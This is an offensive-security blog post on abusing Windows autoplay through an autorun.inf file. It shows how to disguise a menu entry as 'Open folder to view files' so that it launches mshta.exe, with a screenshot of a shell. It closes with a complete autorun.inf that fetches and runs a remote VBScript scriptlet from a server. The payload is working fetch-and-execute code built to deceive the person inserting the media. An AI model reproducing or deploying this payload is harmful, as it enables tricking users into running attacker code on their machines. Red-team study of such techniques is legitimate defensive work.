 So as a default thing, I can get a menu entry on autoplay to attempt to execute any OS executable complete with a nice list of arguments and my CD doesn’t even need any content beyond an autorun.inf file?

This sounds ripe for abuse and this is where a bit of inside-the-box thinking comes into play.

[Subtee](https://twitter.com/subTee) – A man who has gone to town on windows executables and bypassing DG/Applocker/SRP has a few tasty ways of getting scripting languages to pop on a box. Let’s take what he’s taught us over the last few years and put a little something together.

![](/assets/images/2017-08-24-playing-with-autoplay-1.png)

*Using MSHTA method to pop shells*

Okay so we’ve got something here, problem is, it looks dodge as hell as it comes up as mshta.exe, the "Published by Microsoft Windows" bit is a nice touch however, adds some legitimacy to the whole affair and I guess its a consequence of using a signed binary.

Lets see what we can do to make it look a little better.

## Keeping up Appearances
Using the same technet resource as before we can see a few other options available for us.

We can customise the "action" text associated with an autoplay entry.

So "Execute mshta.exe" can be changed to say "CLICK HERE FOR FUNTIMES!" or more usefully, "Open folder to view files".

We can also customise the icon displayed associated with that default action and this is where a little bit of recon for your targets may come in handy as the icon associated with the "Open folder to view files" action varies based on OS.

So a few changes later, our autorun.inf file looks like this:

```
[autorun]
action=Open folder to view files
icon=icon2.ico
open=mshta.exe vbscript:GetObject("script:http://127.0.0.1:80/webapp/static/91f3c_rg")(window.close)
```
